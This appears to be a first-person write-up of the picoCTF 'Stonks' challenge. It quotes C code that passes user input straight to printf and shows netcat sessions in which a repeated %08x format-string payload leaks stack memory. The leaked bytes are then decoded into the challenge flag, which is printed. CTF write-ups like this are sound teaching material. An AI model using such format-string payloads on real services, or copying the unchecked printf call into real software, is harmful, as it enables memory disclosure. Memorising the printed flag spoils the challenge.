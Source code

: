 # Stonks Write-up

This is my first format string vulnerability CTF task.

## The Challenge by MADSTACKS

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! `vuln.c nc` `mercury.picoctf.net 20195`.

## The Solution

We look at the `vuln.c` file. In the `buy_stonks()` function, we find a sketchy implementation of the `printf()` function. 
```C
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```
If you know C, then you might have noticed that the formatting argument is missing. This kind of code-implementation of the `printf()` function is a format string vulnerability. As we will see, we can print parts of the stack memory by inputting to `user_buf`, otherwise known as the API token. 

We check if this vulnerability is indeed present by connecting via `nc`:
```console
(base) stange@ericjoshua ~ % nc mercury.picoctf.net 20195
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x
Buying stonks with token:
082c0430
```
The input `%08x` specifies to the `printf()` function to print 8 hexadecimal digits from the stack. Choosing 8 hexadecimal digits is optimal as computers usually have a word to be 4 bytes, in other words 8 hexadecimal digits. This is going to be crucial when we look at [endianness](https://en.wikipedia.org/wiki/Endianness). To find the flag, we will continue to look into `vuln.c`. The following code block is interesting:
```C
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
	printf("Flag file not found. Contact an admin.\n");
	exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```
This is also present inside the `buy_stonks()` function and is present before asking for the API token. This suggests that the flag, stored in `api_buf`, can be found on the stack. We will try to print as much as possible from the stack and decode it afterwards.
```console
(base) stange@ericjoshua ~ % nc mercury.picoctf.net 20195
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x 
Buying stonks with token:
08cc23f0-0804b000-080489c3-f7f6cd80-ffffffff-00000001-08cc0160-f7f7a110-f7f6cdc7-00000000-08cc1180-00000001-08cc23d0-08cc23f0-6f636970-7b465443-306c5f49-345f7435-6d5f6c6c-306d5f79-5f79336e-35343036-64303664-ffc5007d-f7fa7af8-f7f7a440-f69aba00-00000001-00000000-f7e09ce9-f7f7b0c0-f7f6c5c0-f7f6c000-ffc51b38-f7dfa68d-f7f6c5c0-08048eca-ffc51b44-00000000-f7f8ef09-0804b000-f7f6c000
```
Decoding the hexadecimal above using [online tools](https://cyberchef.org/), we find the interesting text `ocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06dÿÅ.}` which might have been influenced by the reversed endianness. After swapping, we get the flag `picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}`





